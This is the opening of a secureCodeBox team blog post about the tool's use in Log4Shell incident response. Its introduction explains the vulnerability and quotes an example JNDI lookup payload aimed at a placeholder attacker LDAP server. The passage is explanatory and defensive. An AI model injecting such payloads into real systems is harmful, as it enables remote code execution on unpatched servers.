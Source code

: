 ```yaml
---
# SPDX-FileCopyrightText: the secureCodeBox authors
#
# SPDX-License-Identifier: Apache-2.0

title: How We Used the secureCodeBox In Our Log4Shell Incident Response
author: The secureCodeBox Team
author_title: Core Developer
author_url: https://github.com/secureCodeBox
author_image_url: https://avatars.githubusercontent.com/u/34573705?v=4
tags:
  - secureCodeBox
  - case study
  - incident response
  - SAST
  - DAST
  - cascading scans
  - Log4Shell
  - Log4J
description: We describe how the secureCodeBox allowed us to rapidly respond to the Log4shell vulnerability.
image: /img/blog/2022-02-24-burninglog.jpg
---
```


![A burning log](/img/blog/2022-02-24-burninglog.jpg)

Cover photo by [Ray Shrewsberry](https://unsplash.com/@ray12119) on [Unsplash](https://unsplash.com/photos/AXRYB88LAXs).

By now, you must have heard about Log4Shell, the present that ruined Christmas for many developers and IT specialists, whether naughty or nice. 
This blog describes how we used the secureCodeBox as one building block in our incident response process at iteratec.
   


## A Brief Introduction To Log4Shell

But first, a small refresher: In late November 2021, a [zero-day vulnerability was discovered in the widely used Java logging library Log4J](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/). It allowed attackers to remotely execute code through Java Naming and Directory Interface ([JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) lookups to malicious LDAP servers: If an attacker can get the application to log a payload controlled by the attacker, like `{jndi:ldap//evil.ldap.server.adress/a}`, then the code hosted on the LDAP server would be loaded and executed by the program, effectively letting third parties take control of the Java Application and the server it's running on.

This vulnerability shook the IT world. It received a CVE rating of 10/10, and even the German government issued a statement calling for immediate action and described the issue as "critical". This is due to two main reasons. First, the vulnerability was relatively simple for attackers to exploit. Second, it has remained undiscovered since 2013, affecting many services from AWS to Minecraft.
